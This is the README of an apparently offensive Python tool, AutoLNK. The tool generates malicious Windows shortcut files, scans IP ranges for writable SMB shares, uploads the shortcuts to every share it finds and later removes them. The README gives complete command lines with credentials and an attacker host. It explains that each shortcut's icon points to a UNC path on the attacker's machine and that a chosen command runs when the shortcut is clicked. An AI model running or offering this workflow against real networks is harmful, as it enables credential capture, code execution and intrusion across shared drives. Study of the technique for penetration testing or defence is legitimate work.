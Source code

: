 # AutoLNK LNK Payload Generator and SMB Share Manager

This Python script is designed to generate `.lnk` (shortcut) files, scan SMB shares for write access, upload the generated `.lnk` files to discovered shares, and clean them up later. It is capable of running on both Windows and non-Windows systems.

## Features

- **Generate LNK (Shortcut) Files**: Creates `.lnk` files on both Windows and non-Windows platforms.
- **Scan SMB Shares**: Scans an IP range for writable SMB shares using the `netexec` tool.
- **Upload LNK Files**: Uploads the generated `.lnk` file to discovered writable SMB shares.
- **Cleanup LNK Files**: Deletes previously uploaded `.lnk` files from the SMB shares.
- **Cross-Platform**: Works on both Windows and Linux systems.

## Requirements

### Windows:
- `pywin32` library (for LNK file creation on Windows)

### Linux:
- `pylnk3` library (for LNK file creation on Linux)
- `smbclient` tool (for SMB share interaction)

## Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/Tajnost/AutoLNK.git
   cd AutoLNK.git
   ```

2. Install required Python libraries:

   On Windows:
   ```bash
   pip install pywin32
   ```

   On Linux:
   ```bash
   pip install pylnk3
   ```

3. Ensure that `netexec` and `smbclient` tools are available on your system.

## Usage

The script provides the ability to either generate `.lnk` files, scan SMB shares, upload `.lnk` files, or clean up previously uploaded `.lnk` files. Below is a detailed breakdown of its usage:

### Command-line Arguments

| Argument          | Description                                                                                      | Required |
|-------------------|--------------------------------------------------------------------------------------------------|----------|
| `--target-range`   | The target IP range for SMB scanning (e.g., `192.168.131.0/24`)                                   | Yes      |
| `--username`       | Username for SMB authentication                                                                  | Yes      |
| `--password`       | Password for SMB authentication                                                                  | Yes      |
| `--domain`         | Domain for SMB authentication (use only if domain authentication is required)                    | No       |
| `--local-auth`     | Use this flag for local SMB authentication (disables domain authentication)                      | No       |
| `--host`           | The attacker's IP or hostname to be embedded in the LNK file's icon location                     | Yes      |
| `--output`         | The name of the `.lnk` file to be generated                                                      | Yes      |
| `--execute`        | The command that will be executed when the shortcut is clicked (defaults to `C:\Windows\explorer.exe .`) | No       |
| `--targets-file`   | Path to save the discovered SMB shares (defaults to `/home/kali/targets.txt`)                    | No       |
| `--cleanup`        | Use this flag to remove the uploaded `.lnk` files from the SMB shares                            | No       |

### Example Usage

1. **Generate and Upload LNK Files to SMB Shares**:

   This command generates a `.lnk` file and scans for writable SMB shares within a given IP range. It then uploads the `.lnk` file to the discovered shares.

   ```bash
   python3 lnk_payload_smb.py --target-range 192.168.131.0/24 --username admin --password 'Password123!' --host 192.168.131.10 --output /home/kali/myfile.lnk
   ```

2. **Clean Up Uploaded LNK Files**:

   This command removes the previously uploaded `.lnk` files from the writable SMB shares discovered earlier.

   ```bash
   python3 lnk_payload_smb.py --target-range 192.168.131.0/24 --username admin --password 'Password123!' --cleanup
   ```

## How It Works

1. **LNK File Generation**:
   The script generates a `.lnk` file that points to a specified command (e.g., `cmd.exe`) and assigns a custom icon from a UNC path (`\\attacker_ip\share\file.ico`).

2. **SMB Share Scanning**:
   It uses the `netexec` tool to scan a given IP range for SMB shares with write access.

3. **Uploading LNK Files**:
   The script uploads the `.lnk` file to all writable SMB shares using the `smbclient` tool.

4. **Cleaning Up LNK Files**:
   It removes the uploaded `.lnk` files from the SMB shares using `smbclient`.

## Notes

- Make sure you have appropriate permissions to scan and upload files to the SMB shares.
- The script assumes that the required tools like `netexec` and `smbclient` are installed and available in the system's PATH.
- Wrap passwords in single quotes when using special characters (e.g., `Password123!`) to avoid breaking the command.

![image](https://github.com/user-attachments/assets/41bba42a-8392-4a2d-a476-00ff2193e860)


![image](https://github.com/user-attachments/assets/c1923b63-4d2f-44ba-bd7b-381e0f4370df)



If --cleanup argument is used:

![image](https://github.com/user-attachments/assets/c59d52cc-c812-4548-b7c8-da29d5a499e3)

